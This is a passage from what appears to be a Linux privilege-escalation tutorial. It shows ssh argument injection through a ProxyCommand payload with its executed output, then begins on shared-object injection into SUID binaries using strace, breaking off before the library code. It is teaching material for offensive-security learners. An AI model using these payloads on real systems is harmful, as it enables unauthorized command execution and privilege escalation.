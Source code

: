 Control over the **start of any argument** and at least one argument after your input can be exploitable. By injecting a `ProxyCommand` option with `-o`, the argument after becomes the host it tries to resolve. Even if this connection fails, the injected command will still execute:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ export input='-oProxyCommand=;id>/tmp/pwned;'  # Any way your input ends up in ssh
</strong><strong>$ ssh "$input"@host command  # Interprets $input as an option and command as the host
</strong>/bin/bash: @host: command not found
kex_exchange_identification: Connection closed by remote host
<strong>$ cat /tmp/pwned
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

For **more** Argument Injection payloads like this for different tools, see the following two collections:

{% embed url="https://gtfoargs.github.io/" %}
A list of many different and common tools, and what functionality they can have
{% endembed %}

{% embed url="https://sonarsource.github.io/argument-injection-vectors/" %}
A few specific tools with system command and file write functionality
{% endembed %}

## Shared Object Injection

This technique is a little more advanced. Programs often need libraries to do certain things, but sometimes you can overwrite some of these libraries with your own. Then the SUID program would load your malicious library instead of the normal one, executing your code.&#x20;

You can find what libraries a program loads at runtime using `strace` and looking for opened files:

<pre class="language-c"><code class="lang-c"><strong>$ strace ./vulnerable 2>&#x26;1 | egrep -i "open|access|no such file"
</strong>access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
<strong>open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
</strong></code></pre>

In the example above, you can see a few libraries that it failed to access. The last one (`libcalc.so`) is in my user's `/home` directory, so we can write our own library there for it to be executed:
